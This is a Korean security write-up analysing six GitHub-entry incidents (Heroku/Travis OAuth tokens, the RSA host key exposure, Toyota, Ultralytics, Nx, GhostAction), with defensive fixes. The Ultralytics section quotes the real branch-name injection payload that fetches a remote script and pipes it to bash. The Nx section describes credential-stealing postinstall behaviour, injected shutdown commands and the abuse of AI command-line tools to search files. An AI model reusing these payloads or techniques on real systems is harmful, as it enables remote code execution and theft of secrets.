








# GitHub를 입구로 터진 보안사고

공급망 사고를 정리한 문서는 이미 있다. [CI/CD 파이프라인 공격](CI_CD_Pipeline_Attacks.md)은 Codecov, tj-actions, Shai-Hulud를 다루고, [최근 보안사고 사례 2021~2025](Recent_Security_Incidents.md)는 연도순 연표다. 두 문서는 "어떤 패키지가 오염됐나"를 기준으로 쓰여 있어서, 오염 이전에 GitHub 쪽에서 무엇이 열려 있었는지는 사고마다 한 줄 정도만 나온다. 이 문서는 기준을 뒤집는다. GitHub가 입구였던 사고만 모아서 "어느 설정이나 키가 열려 있었나"로 나눈다.

여섯 건을 고른 이유는 원인이 서로 달라서다. 연동 서비스에 발급한 OAuth 토큰이 밖에서 털린 건(Heroku·Travis CI), GitHub가 자기 SSH 호스트 키를 공개 저장소에 올린 건, 위탁사가 액세스 키가 든 소스를 공개 저장소에 5년 가까이 둔 건(Toyota), 외부 PR의 브랜치명과 제목이 셸에 그대로 들어간 두 건(Ultralytics, Nx), 탈취한 계정으로 워크플로를 새로 심은 건(GhostAction)이다. 공통점은 취약점 번호(CVE)를 찾아봐도 소용이 없다는 점이다. 전부 설정, 키 관리, 권한 위임의 문제였다.

겹치는 사고는 짧게 줄이고 해당 문서로 보낸다. 토큰 목록을 뽑는 명령은 맨 끝 절에 모아 두었다.

## 여섯 건을 한 장에 놓고 보면

아래 도식은 사고마다 입구, 탈취 대상, 확산 경로를 한 줄로 그린 것이다. 가로로 읽으면 각 사고의 연쇄가 보이고, 세로로 읽으면 탈취 대상이 어디에 몰려 있는지 보인다. 여섯 건 모두 끝에 있는 것은 키나 토큰이다.



| 사고 | 시점 | 확인된 규모 | 출처 |
|---|---|---|---|
| Heroku·Travis CI OAuth 토큰 | 2022-04 | 수십 개 조직(npm 포함)의 비공개 저장소 | [GitHub 블로그](https://github.blog/news-insights/company-news/security-alert-stolen-oauth-user-tokens/), [Heroku](https://www.heroku.com/blog/april-2022-incident-review) |
| RSA SSH 호스트 키 노출 | 2023-03-24 | 악용 정황 없음(GitHub 발표) | [GitHub 블로그](https://github.blog/news-insights/company-news/we-updated-our-rsa-ssh-host-key/) |
| Toyota T-Connect | 2017-12 ~ 2022-09-15 | 296,019건(이메일·고객관리번호) | [Toyota 공지](https://global.toyota/jp/newsroom/corporate/38095972.html), [The Register](https://www.theregister.com/2022/10/11/toyota_source_code_email_leak/) |
| Ultralytics | 2024-12-04 ~ 12-07 | 악성 버전 4개 | [PyPI 블로그](https://blog.pypi.org/posts/2024-12-11-ultralytics-attack-analysis/), [William Woodruff](https://blog.yossarian.net/2024/12/06/zizmor-ultralytics-injection) |
| Nx s1ngularity | 2025-08-26 | 출처마다 단위가 다름(아래 표) | [Nx 권고문](https://github.com/nrwl/nx/security/advisories/GHSA-cxm3-wv7p-598c), [Wiz](https://www.wiz.io/blog/s1ngularity-supply-chain-attack) |
| GhostAction | 2025-09-05 발견 | 사용자 327명, 저장소 817개, 시크릿 3,325건 | [GitGuardian](https://blog.gitguardian.com/ghostaction-campaign-3-325-secrets-stolen/) |

이 문서의 여섯 건에서는 CISA 공지를 찾지 못했다. 찾지 못했다는 것이지 없다는 단정은 아니다. CISA 공지가 있는 tj-actions와 Shai-Hulud는 위의 기존 문서에 링크가 있다.

## Heroku·Travis CI, 플랫폼 밖에서 새어 나간 OAuth 토큰

2022년 4월 12일 GitHub는 npm 프로덕션 인프라에 무단 접근이 있었다는 것을 발견했다. 조사해 보니 Heroku와 Travis CI에 발급된 OAuth 사용자 토큰이 공격자 손에 있었고, 그 토큰으로 npm을 포함한 수십 개 조직의 비공개 저장소가 내려받아졌다. GitHub는 이 토큰이 GitHub 쪽에 원본 형태로 저장되어 있지 않다는 점을 들어 GitHub 시스템 침해로 얻은 것은 아니라고 판단했다. 피해 조직에는 4월 18일(저장소 내용을 내려받은 경우), 4월 22일(목록만 조회한 경우), 4월 27일 순서로 통지가 갔다.

Heroku의 사후 보고서가 입구를 구체적으로 적고 있다. 시작은 Heroku 머신 계정의 토큰이었고, 이 토큰은 Heroku 소스가 들어 있던 아카이브된 비공개 GitHub 저장소에서 나왔다. 제3자 연동으로 그 저장소에 접근했다는 것까지는 적혀 있지만, 어느 제3자인지는 Heroku도 특정하지 못했다고 한다. 4월 7일에 공격자가 Heroku 데이터베이스에서 고객의 GitHub 연동 OAuth 토큰을 내려받았고, 4월 8~9일에 고객 저장소 목록을 뽑고 Heroku 비공개 저장소와 일부 고객의 비공개 저장소를 clone했다. 4월 13일 GitHub 통보를 받은 Heroku가 3시간 안에 해당 계정을 막았고, 4월 15일에 Heroku Dashboard의 GitHub 연동 토큰을 전부 폐기했다. 이후 5월 5일에 고객 계정 비밀번호를 강제 교체했고, 5월 16일에는 Review Apps·Heroku CI의 파이프라인 단위 환경 변수까지 노출 대상이었다는 것을 확인했다. 이 문서에서는 Heroku 쪽 경위만 원문으로 확인했고, Travis CI가 토큰을 어떻게 잃었는지는 확인하지 못했다.



도식은 연쇄 네 번이다. 처음 두 단계는 "더 이상 쓰지 않는 저장소"에서 시작했다. 아카이브한 저장소는 읽기 전용이 될 뿐 안에 든 토큰이 죽지는 않는다. 그리고 고객 쪽에서 보면 GitHub 계정 보안은 아무 문제가 없었는데 사고가 났다. 사용자가 OAuth 연동을 승인한 순간 그 계정의 비공개 저장소 접근 권한은 연동 서비스의 DB에 들어 있는 토큰 문자열 하나에 걸려 있게 된다.

조직 차원의 대응은 두 곳이다. 조직 설정의 OAuth 앱 접근 제한을 켜 두면 승인되지 않은 OAuth 앱이 조직 저장소에 접근하지 못한다. 그리고 승인한 앱 중 쓰지 않는 것을 정기적으로 걷어낸다. 명령은 맨 끝 절에 있다. OAuth 토큰 전반의 탈취 사고(Snowflake, Salesloft Drift 등)는 [SaaS 자격증명과 토큰 탈취 사고](Saa_S_Token_Theft_Incidents.md)에 있고, OAuth 자체의 구조는 [OAuth 2.0](OAuth.md)을 본다.

## RSA 호스트 키 노출과 known_hosts 경고

2023년 3월 24일 05:00 UTC 무렵 GitHub는 github.com의 RSA SSH 개인키가 공개 GitHub 저장소에 잠시 노출됐다고 밝히고 키를 교체했다. GitHub 발표에 따르면 시스템이나 고객 정보가 침해된 것은 아니고 실수로 게시한 것이며, 노출된 키가 악용됐다고 볼 근거는 없다. 어떻게 올라갔는지는 발표문에 적혀 있지 않다.

호스트 키가 노출되면 개인키를 가진 누군가가 github.com 행세를 할 수 있다. 사용자가 DNS나 네트워크 경로를 장악당한 상태에서 접속하면 `git push`로 나가는 코드와 인증 정보가 가짜 서버로 갈 수 있다. 그래서 교체는 피할 수 없었고, 그 대가로 전 세계의 RSA 호스트 키를 `known_hosts`에 저장해 둔 클라이언트에 경고가 떴다.

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
```

이 경고는 중간자 공격 때와 문구가 똑같다. 그래서 습관적으로 `ssh-keygen -R`부터 치면 안 된다. 먼저 서버가 내미는 키의 지문이 GitHub가 공개한 값과 같은지 본다.



지문 대조에 쓰는 명령이다. 2026-10-08에 직접 실행해서 `api.github.com/meta`가 주는 RSA 키와 `ssh-keyscan`이 받은 RSA 키가 둘 다 `SHA256:uNiVztksCsDhcc0u9e8BujQXVUpKZIDTMczCvj3tD2s`로 나오는 것을 확인했다.

```bash
# 서버가 지금 내미는 RSA 키의 지문
ssh-keyscan -t rsa github.com 2>/dev/null | ssh-keygen -lf -

# 기존 항목 삭제 후 GitHub 가 HTTPS 로 공개한 키 목록으로 다시 채움
ssh-keygen -R github.com
curl -sL https://api.github.com/meta | jq -r '.ssh_keys[]' | sed 's/^/github.com /' >> ~/.ssh/known_hosts
```

두 번째 블록은 GitHub 블로그가 안내한 방식과 같다. `ssh-keyscan` 결과를 그대로 `known_hosts`에 넣는 방식은 바로 그 순간 중간자가 끼어 있으면 가짜 키를 신뢰 목록에 올려 버리기 때문에 쓰지 않는다. HTTPS로 받은 목록이어야 인증서 검증이 한 번 끼어든다.

경고가 가리키는 줄 번호가 `github.com`이 아니라 IP 주소 항목이면 그 IP도 `ssh-keygen -R <IP>`로 지운다. RSA가 아닌 ED25519나 ECDSA로 접속하던 클라이언트는 경고를 보지 않았을 가능성이 높다. 교체 대상이 RSA 키 하나였고, `ssh`는 `known_hosts`에 이미 있는 알고리즘의 호스트 키를 우선 쓰기 때문이다.

더 곤란했던 쪽은 사람이 아니라 자동화다. 이미지를 빌드할 때 `ssh-keyscan`으로 받은 키를 박아 두었거나 옛 키를 파일로 복사해 둔 CI는, 교체 이후 사람이 없는 곳에서 조용히 실패한다. 이때 `StrictHostKeyChecking=no`로 우회하면 경고가 사라지는 대신 이번 사고가 막으려던 보호도 사라진다. 이미지나 스크립트에 호스트 키를 고정해 둔 곳은 위의 `meta` 방식으로 갱신한다. 호스트 키 운영 전반은 [SSH 키 라이프사이클 관리](SSH_Key_Management.md)에 있다.

## Toyota 위탁사의 공개 저장소

Toyota의 공지(2022년 10월 7일자)에 따르면 T-Connect 웹사이트 개발 위탁사가 2017년 12월에 소스 코드를 공개 설정의 GitHub 저장소에 올렸고, 2022년 9월 15일에 발견할 때까지 외부에서 볼 수 있었다. 소스 안에 데이터 서버 액세스 키가 들어 있었고, 그 서버에는 고객 이메일 주소와 고객 관리 번호가 있었다. 대상은 296,019건이다. 이름, 전화번호, 카드 정보는 대상이 아니었다.

Toyota는 발견 당일 저장소를 비공개로 돌렸고 9월 17일에 액세스 키를 바꿨다. 제3자 접근은 확인되지 않았지만 완전히 부정할 수도 없다고 공지에 적었다. 이 마지막 문장이 이 사고의 실체다. 저장소는 이미 내려갔는데도 그동안 누가 clone했는지 알 방법이 없다. 키를 회전하기 전까지는 5년 가까이 열려 있던 문이고, 키 값이 소스 안에 있었다면 그 문을 연 사람의 접속 기록이 데이터 서버에 남았는지가 유일한 단서다.

이 사고에는 앞의 둘과 다른 점이 하나 있다. 위탁사의 저장소는 Toyota 조직 계정 밖에 있었다. 조직의 audit log나 secret scanning이 보는 범위가 아니다. GitHub의 secret scanning은 주요 서비스의 토큰 형식을 알아보지만, 자기 데이터 서버의 접속 키는 custom pattern을 만들어 두지 않았다면 알아보지 못한다. 그래서 조직 쪽에서 할 수 있는 일은 밖에서 찾아보는 것과 위탁 계약에 저장소 규칙을 넣는 것이다. 외부 검색 명령은 맨 끝 절에 있다. 위탁사 코드가 공개 저장소에 올라가는 것을 막지 못한다면 최소한 그 코드에 들어 있을 수 있는 키가 읽기 전용이고 IP로 제한되어 있어야 한다. 이번 건은 키 하나로 고객 데이터 서버에 접근이 됐다는 점이 피해 범위를 정했다. 시크릿 관리 일반은 [시크릿 관리](Secrets_Management.md)를 본다. 국내 유출 사례 모음은 [국내 개인정보 유출 사고 사례](Korea_Data_Breach_Cases.md)에 있다.

## 워크플로 인젝션 두 건, Ultralytics와 Nx

Ultralytics(2024년 12월)와 Nx(2025년 8월)는 사고 시점이 8개월 떨어져 있는데 입구가 같다. 외부인이 만든 PR의 브랜치명이나 제목이 `pull_request_target` 워크플로 안에서 셸 명령으로 실행됐다. `pull_request_target`은 base 저장소의 컨텍스트로 돌기 때문에 저장소 시크릿과 쓰기 권한이 있는 `GITHUB_TOKEN`을 받는다. 거기에 외부 입력이 셸에 들어가면 외부인이 시크릿을 쓰는 것과 같다.



도식에서 눈여겨볼 곳은 `alt` 블록이다. 같은 입구에서 시작했지만 Ultralytics는 빌드 캐시에 악성 코드를 심어 정상 릴리스 파이프라인이 악성 파일을 만들게 했고, Nx는 토큰을 빼서 공격자가 직접 발행했다. 막는 지점도 다르다. 캐시 오염은 릴리스 빌드가 PR 컨텍스트와 캐시를 공유하지 않게 해야 하고, 토큰 유출은 발행 토큰을 워크플로 시크릿에 두지 않아야 한다.

### Ultralytics

William Woodruff의 분석에 따르면 `.github/workflows/format.yml`이 `pull_request_target`로 트리거됐고, 그 안에서 쓰는 `ultralytics/actions` 합성 액션이 이런 줄을 갖고 있었다.

```yaml
- run: git pull origin ${{ github.head_ref || github.ref }}
```

`${{ }}`는 셸이 실행되기 전에 값이 문자열로 치환된다. 브랜치명이 `main`이면 문제가 없고, 브랜치명 자체가 명령이면 그 명령이 스크립트 한 줄이 된다. 공격자가 쓴 브랜치명은 원문 기준으로 이랬다.

```
$({curl,-sSfL,raw.githubusercontent.com/ultralytics/ultralytics/d8daa0b26ae0c221aa4a8c20834c4dbfef2a9a14/file.sh}${IFS}|bash)
```

이상하게 생긴 이유가 있다. 브랜치명에는 공백을 쓸 수 없어서 공백은 `${IFS}`로, 인자 구분은 중괄호 확장 `{curl,-sSfL,...}`로 대신했다. bash에서 `$({echo,hello,world}${IFS}|cat)`을 실행해 보면 `hello world`가 나온다. 같은 구조다.

타임라인은 Woodruff 기준이다. 12월 4일 19:33~19:57에 PR #18018, #18020이 올라왔고 20:50~20:51에 8.3.41이 PyPI에 올라갔다. 12월 5일 09:15에 8.3.41이 내려갔으니 약 12시간 노출됐다. 같은 날 12:47에 8.3.42가 올라갔다가 내려갔다. 12월 7일 01:41~02:27에는 8.3.45와 8.3.46이 올라갔다. 시각의 타임존은 원문에 표기가 없어서 옮기지 않았다.

PyPI 블로그가 흥미로운 점을 짚는다. 이 프로젝트는 Trusted Publishing을 쓰고 있었기 때문에 정상 릴리스에는 출처 증명(attestation)이 붙는다. 12월 7일의 두 버전에는 그것이 없었다. 공격자가 폐기되지 않은 옛 PyPI API 토큰으로 직접 올렸기 때문이다. Trusted Publishing으로 옮기고 나서 옛 토큰을 지우지 않으면, 증명이 없다는 사실로 이상한 릴리스는 구분할 수 있어도 그 릴리스를 막지는 못한다.

### Nx

Nx 권고문(GHSA-cxm3-wv7p-598c)의 시각은 미국 동부 시간이다. 취약한 워크플로가 8월 21일 16:31에 병합됐고, 악성 버전은 8월 26일 18:32에 발행됐으며, 권고문은 8월 27일 01:53에 올라왔다. 워크플로에는 두 가지 결함이 겹쳐 있었다. PR 제목이 bash 인젝션에 쓰였고(`$(echo "You've been compromised")` 같은 제목), 트리거가 `pull_request_target`이라 읽기·쓰기 권한의 `GITHUB_TOKEN`이 주어졌다. 공격자는 PR 검증 쪽 결함을 이용해 발행 워크플로를 돌리게 만들었고, 악성 커밋으로 npm 토큰을 처음 보는 webhook으로 보냈다.

악성 버전의 postinstall 스크립트는 파일 시스템에서 텍스트 파일과 자격증명을 찾아 인코딩한 뒤, 피해자 본인의 GitHub 계정에 `s1ngularity-repository`라는 이름의 저장소를 만들어 올렸다. 업로드에는 피해자 컴퓨터에서 훔친 GitHub 토큰이 쓰였다. 권고문은 `.zshrc`와 `.bashrc`에 `sudo shutdown -h 0`이 추가됐다고 적었고, Wiz와 The Hacker News는 설치된 AI CLI(Claude, Gemini, q)에 파일 시스템을 뒤지게 해서 경로를 `/tmp/inventory.txt`에 쌓았다고 보고했다. 영향받은 `nx` 버전은 21.5.0, 21.6.0, 21.7.0, 21.8.0, 20.9.0, 20.10.0, 20.11.0, 20.12.0이다. 일부 플러그인(`@nx/devkit`, `@nx/js`, `@nx/workspace`, `@nx/node`, `@nx/eslint`, `@nx/key`, `@nx/enterprise-cloud`)에도 해당 버전이 있다.

2차 피해가 따로 있다. Wiz의 사후 분석에 따르면 1차로 훔친 GitHub 토큰으로 최소 480개 계정(3분의 2가 조직)의 비공개 저장소 6,700개 이상이 공개로 바뀌었고, 이름은 `s1ngularity-repository-#5글자#` 형태였다. 이 단계에서 GitHub가 침해된 토큰을 직접 폐기한 흔적이 audit log에 `org_credential_authorization.deauthorize` 이벤트(행위자 `github-staff`)로 남는다.



1차 업로드(위쪽 가지)와 훔친 토큰으로 일어난 2차 공개 전환(아래쪽 가지)이 같은 postinstall에서 갈라진다. 아래 비교표에서 두 집계를 합산하면 안 된다고 한 이유다.

### 고치는 곳

둘 다 외부 입력을 셸에 직접 쓰지 않는 것으로 막힌다. 입력을 `env:`로 받아 따옴표를 친 셸 변수로 쓴다.

```yaml
on:
  pull_request:        # 포크 PR 에는 시크릿이 주입되지 않고 GITHUB_TOKEN 은 읽기 전용이다

permissions:
  contents: read

jobs:
  sync:
    runs-on: ubuntu-latest
    steps:
      - name: Sync branch
        env:
          HEAD_REF: ${{ github.head_ref }}
        run: git pull origin "$HEAD_REF"
```

`pull_request_target`을 쓰는 워크플로가 흔한 이유는 포크 PR에 포맷 결과를 푸시하거나 라벨을 붙이는 작업이 쓰기 권한을 필요로 하기 때문이다. 그런 작업이 정말 필요하면 PR 코드를 체크아웃하지 않는 별도 워크플로로 분리하고, 입력값은 `env:`로만 받는다. 이 방식은 셸 인젝션을 막을 뿐이다. `pull_request_target`에서 PR 헤드를 체크아웃해 빌드까지 돌리는 구성은 입력값을 제대로 처리해도 PR의 코드가 시크릿 옆에서 실행되는 문제가 남는다.

발행 쪽은 별개의 대책이 필요하다. 레지스트리 토큰이 워크플로 시크릿에 있는 한 워크플로가 뚫리면 토큰이 나간다. [OIDC로 장기 시크릿을 없애는 방법](CI_CD_Pipeline_Attacks.md)과 npm·PyPI의 Trusted Publishing을 쓰고, 이전 토큰은 반드시 폐기한다. Ultralytics가 이 부분을 놓친 사례다. 토큰 폐기와 회전의 순서 문제는 같은 문서의 "시크릿을 회전했는데 다시 털리는 경우"에 있다. 설치 단계의 방어(postinstall 차단, 갓 발행된 버전 지연)는 Shai-Hulud 절에 있고, 의존성 쪽 전반은 [공급망 공격 방어](Supply_Chain_Security.md)에 있다.

## GhostAction, 워크플로를 새로 만들어 시크릿을 보낸 경우

앞의 두 건은 기존 워크플로의 결함을 이용했다. GhostAction은 워크플로를 새로 만들어 넣었다. GitGuardian이 2025년 9월 5일에 발견해 공개했고 규모는 GitGuardian 집계로 사용자 327명, 저장소 817개, 시크릿 3,325건이다. 9월 9일에 두 번째 물결이 관측됐다(커밋 약 500개, 저장소 14개 추가). 다른 보안업체의 별도 집계는 이번에 찾지 못했다. 이 수치는 GitGuardian 단일 출처다.

공격자는 저장소에 쓸 수 있는 계정을 확보했다. 계정을 어떻게 얻었는지는 GitGuardian 글에서 확인하지 못했다. 이후 기존 워크플로 파일을 읽어서 어떤 시크릿 이름이 쓰이는지 파악하고, `.github/workflows/github_actions_security.yml`이라는 파일을 "Github Actions Security"라는 이름으로 커밋했다. 이 워크플로는 저장소에 있는 시크릿을 모아 외부 서버로 HTTP POST했다. 가장 많이 나간 것은 DockerHub 자격증명, GitHub 토큰, npm 토큰이고, PyPI 토큰, AWS 액세스 키, DB 자격증명, Cloudflare 토큰도 있었다.



도식에서 볼 것은 공격자가 시크릿 값을 직접 읽지 않고 러너가 대신 읽어 보내게 만든다는 점이다. 그래서 저장소 쓰기 권한만 있으면 시크릿 접근 권한이 따로 없어도 시크릿이 나간다.

GitGuardian은 이 시크릿으로 발행 권한을 가진 패키지 24개(npm 9개, PyPI 15개)가 위험했다고 평가하면서, 공개 시점까지 악성 패키지가 발행된 것은 확인되지 않았다고 적었다. 가장 빨랐던 FastUUID 프로젝트는 PyPI를 읽기 전용으로 바꾼 12:11 이후 12:30에 악성 커밋을 되돌렸다.

이 사고는 시크릿 이름을 저장소의 기존 워크플로에서 읽어 갔다는 점이 눈에 띈다. 워크플로가 `${{ secrets.PYPI_TOKEN }}`을 쓴다는 사실 자체가 공격자에게는 지도다. 막는 지점은 두 곳이다. 첫째는 `.github/workflows/`를 바꾸려면 리뷰를 거치게 하는 것이다. 저장소 규칙(ruleset)으로 기본 브랜치 직접 푸시를 막고 `.github/`를 CODEOWNERS에 넣는다. 공격자가 어떤 트리거를 썼는지는 GitGuardian 글에서 확인하지 못했다. 다만 `push` 트리거 워크플로는 어느 브랜치에 푸시해도 도는 것이 일반적인 동작이라, 기본 브랜치 보호만으로는 부족하다. 둘째는 시크릿을 저장소 전체 시크릿이 아니라 환경(environment) 시크릿으로 옮기고, 해당 환경에 배포 가능한 브랜치와 승인자를 걸어 두는 것이다. 그러면 새 브랜치에 심은 워크플로는 시크릿에 닿지 못한다. 감지는 audit log나 커밋 이력에서 워크플로 파일 변경을 보는 것이 가장 빠르다.



왼쪽은 저장소 전체 시크릿일 때, 오른쪽은 환경 시크릿에 배포 가능한 브랜치와 승인자를 걸었을 때다. 분기 하나가 들어가면서 새 브랜치에 심은 워크플로가 시크릿에 닿지 못한다.

## 출처마다 값이 갈리는 곳

수치와 날짜가 출처에 따라 다르게 보이는 자리를 모았다. 값이 다른 것이 아니라 세는 단위나 기준 시각이 달라서 그런 경우가 대부분이다.

| 항목 | 값 A | 값 B | 판단 |
|---|---|---|---|
| Toyota 노출 기간 | Toyota 원문 "2017년 12월~2022년 9월 15일" | 매체의 "약 5년" | 같은 기간이다. 4년 9개월을 반올림했다. |
| Toyota 공지일 | 공지에 2022-10-07 | The Register 기사는 10월 11일 | 11일은 기사 작성일이다. |
| Heroku 사고 시점 | Heroku는 4월 7일 토큰 추출 | GitHub는 4월 12일 무단 접근 발견 | 4월 7일은 공격자 행동 시점, 12일은 GitHub의 탐지 시점이다. |
